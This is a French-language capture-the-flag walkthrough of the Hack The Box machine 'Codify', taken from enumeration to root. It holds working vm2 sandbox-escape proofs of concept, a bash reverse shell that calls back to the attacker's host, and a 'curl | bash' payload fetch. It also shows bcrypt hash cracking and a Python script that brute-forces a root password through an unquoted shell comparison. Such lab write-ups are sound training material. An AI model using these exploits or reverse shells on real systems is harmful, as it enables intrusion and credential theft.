

<table style="border:none; width:100%;">
  <tr>
    <!-- Colonne gauche : logo -->
    <td style="border:none; text-align:center; vertical-align:middle; width:150px;">
      
    </td>
    <td style="border:none; text-align:center; vertical-align:middle;">
      <table style="margin:auto; border-collapse:collapse; border:1px solid #ddd;">
        <thead>
          <tr>
            <th style="padding:8px; border:1px solid #ddd; text-align:center;">Machine name</th>
            <th style="padding:8px; border:1px solid #ddd; text-align:center;">OS</th>
            <th style="padding:8px; border:1px solid #ddd; text-align:center;">IP</th>
            <th style="padding:8px; border:1px solid #ddd; text-align:center;">Difficulty</th>
          </tr>
        </thead>
        <tbody>
          <tr>
            <td style="padding:8px; border:1px solid #ddd; text-align:center;">Codify</td>
            <td style="padding:8px; border:1px solid #ddd; text-align:center;">Linux</td>
            <td style="padding:8px; border:1px solid #ddd; text-align:center;">10.10.11.239</td>
            <td style="padding:8px; border:1px solid #ddd; text-align:center;">Easy</td>
          </tr>
        </tbody>
      </table>
    </td>
  </tr>
</table>

## Enumeration

### nmap
```bash
Starting Nmap 7.80 ( https://nmap.org ) at 2023-12-31 01:27 CET
Nmap scan report for 10.10.11.239
Host is up (0.016s latency).
Not shown: 65532 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.52
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-title: Did not follow redirect to http://codify.htb/
3000/tcp open  http    Node.js Express framework
|_http-title: Codify
Service Info: Host: codify.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 20.10 seconds
```

### /etc/hosts
On ajoute les noms de domaines necessaire.
```bash
## ...
10.10.11.239 
```

### dirb, gobuster, dirsearch
L'endpoint editor semble permettre d'executer du javscript et d'afficher le resultat.
```bash
┌──(kali㉿kali)-[~/github/dirsearch]
└─$ dirbuster 
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
Starting OWASP DirBuster 1.0-RC1
Starting dir/file list based brute forcing
Dir found: / - 200
File found: /about - 200
File found: /editor - 200
File found: /limitations - 200
Dir found: /about/ - 200
```

## Foothold

### Editor : node js sandbox
Il y a un "editor". C'est une sandbox node js, qui permet donc a n'importe qui d'executer du code node js depuis navigateur en accédant a leur site internet et d'obtenir le resultat a l'écran. Ils interdisent bien sûr les modules tels que **child_process** qui permettent d'executer du code arbitraire sur la machine.

Cependant, sur la page **/about** il est précise que l'éditeur de code fonctionne grâce à la **vm2 library 3.9.16** accompagné d'un lien github. En tapant sur internet, on trouve tout de suite une vulnérabilité qui permet d'important quand meme **child_process** et donc de pouvoir executer du code arbitraire.

Voici un PoC(Proof of concept):
```bash
const {VM} = require("vm2");
const vm = new VM();

const code = `
aVM2_INTERNAL_TMPNAME = {};
function stack() {
    new Error().stack;
    stack();
}
try {
    stack();
} catch (a$tmpname) {
    a$tmpname.constructor.constructor('return process')().mainModule.require('child_process').execSync('whoami');
}
`

console.log(vm.run(code));
```

PoC 2:
```bash
const {VM} = require("vm2");
const vm = new VM();

const code = `
err = {};
const handler = {
    getPrototypeOf(target) {
        (function stack() {
            new Error().stack;
            stack();
        })();
    }
};
  
const proxiedErr = new Proxy(err, handler);
try {
    throw proxiedErr;
} catch ({constructor: c}) {
    c.constructor('return process')().mainModule.require('child_process').execSync('touch pwned');
}
`

console.log(vm.run(code));
```

Ce code permet donc d'executer la commande **whoami** et d'afficher le resultat. On observer d'ailleurs que l'utilisateur qui execute les commandes node js est **svc**


### Exploit : vm2 library 3.9.16
Voici un code pour créer un reverse shell sur la target. Il est stocké dans un fichier `index.html`.
```bash
##!/bin/bash

bash -i >& /dev/tcp/10.10.14.125/44445 0>&1
```

On ouvre un server http sur le port 80. Cela va permettre d'effectuer un `curl` depuis la target pour récupérer le code de `index.html`.
```bash
~/github/Hacking/HackTheBox/Machines/Codify (main*) » sudo python3 -m http.server 80                        1 ↵ 
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.239 - - [31/Dec/2023 15:33:13] "GET / HTTP/1.1" 200 -
```

Voici le code pour récupérer le code du reverse shell et l'executer : **curl 10.10.14.125:80 | bash**
```bash
const {VM} = require("vm2");
const vm = new VM();

const code = `
err = {};
const handler = {
    getPrototypeOf(target) {
        (function stack() {
            new Error().stack;
            stack();
        })();
    }
};
  
const proxiedErr = new Proxy(err, handler);
try {
    throw proxiedErr;
} catch ({constructor: c}) {
    c.constructor('return process')().mainModule.require('child_process').execSync('curl 10.10.14.125:80 | bash');
}
`

console.log(vm.run(code));
```



On est bien connecté !
```bash
~ » nc -lvp 44445
Listening on 0.0.0.0 44445
Connection received on codify.htb 60340
bash: cannot set terminal process group (1254): Inappropriate ioctl for device
bash: no job control in this shell
svc@codify:~$ ls
ls
pwned
```

### Stable shell
On ouvre un shell plus stable en python
```bash
svc@codify:~$ python3 -c 'import pty;pty.spawn("/bin/bash")'
python3 -c 'import pty;pty.spawn("/bin/bash")'
svc@codify:~$ export TERM=xterm
export TERM=xterm
svc@codify:~$ ^Z
[1]  + 23986 suspended  nc -lvp 44445
~ » stty raw -echo; fg
[1]  + 23986 continued  nc -lvp 44445

svc@codify:~$
```

### joshua
En regardant dans /home, on trouve l'utilisateur **joshua**. On va essayer de trouver son mot de passe pour avoir un accès à un compte utilisateur sur la machine cible.

### joshua password : tickets.db
```bash
svc@codify:~$ curl 10.10.14.125:80/linpeas.sh > linpeas.sh
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  828k  100  828k    0     0  5875k      0 --:--:-- --:--:-- --:--:-- 5914k
```

```bash
## On met le resultat de linpeas dans un fichier
$ ./linpeas.sh > linpeas_result.txt &
## On fait un grep pour voir les fichiers .db
$ cat linpeas_result.txt | grep ".db"
Found /var/lib/plocate/plocate.db: regular file, no read permission
Found /var/www/contact/tickets.db: SQLite 3.x database, last written using SQLite version 3037002, file counter 17, database pages 5, cookie 0x2, schema 4, UTF-8, version-valid-for 17
 -> Extracting tables from /var/lib/command-not-found/commands.db (limit 20)
 -> Extracting tables from /var/lib/fwupd/pending.db (limit 20)
 -> Extracting tables from /var/lib/PackageKit/transactions.db (limit 20)
 -> Extracting tables from /var/www/contact/tickets.db (limit 20)

## On remarque le fichier tickets.db qui semble intéressant
svc@codify:~$ cat /var/www/contact/tickets.db 
�T5��T�format 3@  .WJ
       otableticketsticketsCREATE TABLE tickets (id INTEGER PRIMARY KEY AUTOINCREMENT, name TEXT, topic TEXT, description TEXT, status TEXT)P++Ytablesqlite_sequencesqlite_sequenceCREATE TABLE sqlite_sequence(name,seq)��	tableusersusersCREATE TABLE users (
        id INTEGER PRIMARY KEY AUTOINCREMENT, 
        username TEXT UNIQUE, 
        password TEXT
��G�joshua$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2
��
����ua  users
             ickets
r]r�h%%�Joe WilliamsLocal setup?I use this site lot of the time. Is it possible to set this up locally? Like instead of coming to this site, can I download this and set it up in my own computer? A feature like that would be nice.open� ;�wTom HanksNeed networking modulesI think it would be better if you can implement a way to handle network-based stuff. Would help me out a lot. Thanks!opensvc@codify:~$ 2024-01-10 17:23:17 TLS Error: local/remote TLS keys are out of sync: [AF_INET]23.106.35.214:1337 [7]
```
Dans ce fichier il y a le hash de l'utilisateur joshua
```bash
joshua$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2
```

### Second way to find tickets.db
A l'aide de grep, on peut rechercher tous les fichiers qui contiennent une certaine chaine de caractères. On aurait pu par exemple, faire une recherche récursive de "joshua" dans tous les fichiers du système cible. On aurait alors trouver facilement le fichier tickets.db.
```bash
svc@codify:~$ grep -rl "joshua" / 2> /dev/null
/run/systemd/transient/session-c1.scope
/run/systemd/users/1000
/run/systemd/sessions/c1
/var/cache/apt/srcpkgcache.bin
/var/cache/apt/pkgcache.bin
/var/www/contact/tickets.db # ICI
/var/lib/apt/lists/lk.archive.ubuntu.com_ubuntu_dists_jammy_universe_binary-amd64_Packages
/var/lib/apt/lists/lk.archive.ubuntu.com_ubuntu_dists_jammy_universe_i18n_Translation-en
/var/log/wtmp
/var/log/journal/08b7d40fcb5444a9baa8b47d27502d2d/user-1001.journal
```

### Cracking joshua hash | john
A l'aide de **john**, on tente de cracker le hash du mot de passe de **joshua**
```bash
$ john --wordlist=~/wordlists/rockyou.txt joshua_hash.txt

Loaded 1 password hash (bcrypt [Blowfish 32/64 X2])
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status

spongebob1       (?)

1g 0:00:00:38 100% 0.02606g/s 36.27p/s 36.27c/s 36.27C/s teacher..atlanta
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```
Le mot de passe de l'utilisateur **joshua** est donc **spongebob1**.

### User flag: SSH joshua
```bash
$ ssh joshua@10.10.11.239

The authenticity of host '10.10.11.239 (10.10.11.239)' can't be established.
ED25519 key fingerprint is SHA256:Q8HdGZ3q/X62r8EukPF0ARSaCd+8gEhEJ10xotOsBBE.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.11.239' (ED25519) to the list of known hosts.
joshua@10.10.11.239's password: *******
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-88-generic x86_64)
...
Last login: Wed Jan 10 16:35:11 2024 from 10.10.14.159
joshua@codify:~$ whoami
joshua
joshua@codify:~$ ls
user.txt
joshua@codify:~$ cat user.txt 
3c02.....ef98
```

## Privilege Escalation

### mysql-backup.sh as root
```bash
joshua@codify:~$ sudo -l
Matching Defaults entries for joshua on codify:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User joshua may run the following commands on codify:
    (root) /opt/scripts/mysql-backup.sh
```
On remarque qu'on a le droit d'executer la commande **/opt/scripts/mysql-backup.sh** en tant que **root**.  

```bash
$ cat /opt/scripts/mysql-backup.sh 
##!/bin/bash
DB_USER="root"
DB_PASS=$(/usr/bin/cat /root/.creds)
BACKUP_DIR="/var/backups/mysql"

read -s -p "Enter MySQL password for $DB_USER: " USER_PASS
/usr/bin/echo

if [[ $DB_PASS == $USER_PASS ]]; then
        /usr/bin/echo "Password confirmed!"
else
        /usr/bin/echo "Password confirmation failed!"
        exit 1
fi

/usr/bin/mkdir -p "$BACKUP_DIR"

databases=$(/usr/bin/mysql -u "$DB_USER" -h 0.0.0.0 -P 3306 -p"$DB_PASS" -e "SHOW DATABASES;" | /usr/bin/grep -Ev "(Database|information_schema|performance_schema)")

for db in $databases; do
    /usr/bin/echo "Backing up database: $db"
    /usr/bin/mysqldump --force -u "$DB_USER" -h 0.0.0.0 -P 3306 -p"$DB_PASS" "$db" | /usr/bin/gzip > "$BACKUP_DIR/$db.sql.gz"
done

/usr/bin/echo "All databases backed up successfully!"
/usr/bin/echo "Changing the permissions"
/usr/bin/chown root:sys-adm "$BACKUP_DIR"
/usr/bin/chmod 774 -R "$BACKUP_DIR"
/usr/bin/echo 'Done!'
```
On remarque un problème dans le **if**. Il n'y a pas de guillement sur les variables. Ca va nous permettre de bruteforce le mot de passe car les wildcard seront executé

```bash
if [[ $DB_PASS == $USER_PASS ]]; then
        /usr/bin/echo "Password confirmed!"
else
        /usr/bin/echo "Password confirmation failed!"
        exit 1
fi
```

```python
import subprocess

def execute_command(command, password):
    command = f'echo "{password}*" | {command}'
    result = subprocess.run(command, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, text=True)
    return result.stdout.strip()

def brute_force_password():
    command = "/opt/scripts/mysql-backup.sh"
    charset = 'abcdefghijklmnopqrstuvwxyz123456789'
    password_length = 21
    password = ""

    for i in range(password_length):
        for c in charset:
            p = password + c
            output = execute_command(command, p)
            if "Password confirmed!" in output:
                print(f"Letter found: {p}")
                password += c
                break

if __name__ == "__main__":
    brute_force_password()
```

```bash
bruteforce.py  user.txt
joshua@codify:~$ python3 bruteforce.py 
Letter found: k
Letter found: kl
Letter found: klj
Letter found: kljh
Letter found: kljh1
Letter found: kljh12
Letter found: kljh12k
Letter found: kljh12k3
Letter found: kljh12k3j
Letter found: kljh12k3jh
Letter found: kljh12k3jha
Letter found: kljh12k3jhas
Letter found: kljh12k3jhask
Letter found: kljh12k3jhaskj
Letter found: kljh12k3jhaskjh
Letter found: kljh12k3jhaskjh1
Letter found: kljh12k3jhaskjh12
Letter found: kljh12k3jhaskjh12k
Letter found: kljh12k3jhaskjh12kj   
Letter found: kljh12k3jhaskjh12kjh
Letter found: kljh12k3jhaskjh12kjh3
```

```bash
joshua@codify:~$ su root
Password: 
root@codify:/home/joshua# cd
root@codify:~# cat root.txt 
4029.....7333
```